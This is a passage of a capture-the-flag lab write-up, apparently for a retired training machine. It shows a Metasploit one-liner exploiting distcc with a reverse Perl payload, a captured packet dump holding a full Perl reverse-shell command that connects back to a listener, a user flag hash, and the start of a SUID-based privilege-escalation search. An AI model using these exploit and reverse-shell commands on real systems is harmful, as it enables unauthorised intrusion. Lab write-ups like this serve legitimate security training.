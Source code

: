 ````
-rw-r--r-- 1 1001 1001  220 Mar 31  2010 .bash_logout
-rw-r--r-- 1 1001 1001 2928 Mar 31  2010 .bashrc
-rw-r--r-- 1 1001 1001  586 Mar 31  2010 .profile
drwx------ 2 1001 1001 4096 May  7  2010 .ssh

cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
````

# Rewrite the exploit with msf in one line

$ msfconsole -x "use exploit/unix/misc/distcc_exec; set payload cmd/unix/reverse_perl;set RHOST 10.10.10.3;set LHOST 10.10.14.4;exploit"

# Rewrite the exploit in ruby : exploit_distcc.rb 

Take a wireshark trace
````
Wireshard TCP stream dump
DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV000000e5perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.4:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI0000000AWEKvoYoCCu
DONE00000001STAT00000000SERR00000000SOUT00000000DOTO00000000
````

=> ruby exploit_distcc.rb 
Exploit manually written in ruby :)


## Privilege escalation using nmap with sticky bit
````
find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
````